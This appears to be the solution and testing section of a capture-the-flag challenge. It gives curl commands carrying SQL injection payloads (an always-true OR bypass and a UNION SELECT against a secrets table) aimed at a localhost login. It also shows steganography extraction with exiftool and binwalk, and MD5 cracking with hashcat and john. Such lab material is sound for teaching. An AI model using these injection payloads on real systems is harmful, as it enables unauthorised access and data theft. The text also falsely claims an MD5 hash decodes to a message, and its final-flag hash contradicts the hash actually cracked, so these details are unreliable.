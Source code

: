 ### Final Flag
- **Base64 Hash**: `VXJsL2luc3BlY3QucG5nCg==` (decodes to "Url/inspect.png")
- **MD5 Hash**: `a54b1221f9fbf04b13b45d04ffd5a6bd` (decodes to "Congratulations ! You found the real flag !")
- **Final Flag**: `Congratulations ! You found the real flag !`

## Hints

1. **H1 (Visible)**: "Some results show three columns."
2. **H2 (On request)**: "Try `exiftool inspect.png` or `binwalk -e inspect.png` to inspect the file."
3. **H3 (Last resort)**: "The MD5 hash decodes to a congratulatory message."

## Testing the Challenge

### 1. Test SQL Injection
```bash
# Test basic SQLi (redirects to dashboard)
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username": "test", "password": "'\'' or '\''1'\''='\''1"}'

# Test UNION query (redirects to dashboard with stego path)
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username": "foo'\'' UNION SELECT 1, note, '\''admin'\'' FROM secrets --", "password": "bar"}'
```

**Note**: Both successful SQLi attempts will redirect to `/dashboard.html` automatically.

### 2. Download Stego Image
```bash
curl -O http://localhost:3000/assets/inspect.png
```

### 3. Extract Stego Payload
```bash
# Using exiftool (if available)
exiftool inspect.png

# Using strings command
strings inspect.png | grep -E "(FINAL_FLAG|HASH)"

# Using binwalk
binwalk -e inspect.png
```

### 4. Crack MD5 Hash
```bash
# Using hashcat
hashcat -m 0 -a 3 8d01676ad52c43fe0cb695ed248b9ce7 ?u?u?u?u?u?u?u?u

# Using john
echo "8d01676ad52c43fe0cb695ed248b9ce7" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Online lookup (for testing)
# The hash 8d01676ad52c43fe0cb695ed248b9ce7 corresponds to "FOUNTAIN"
```
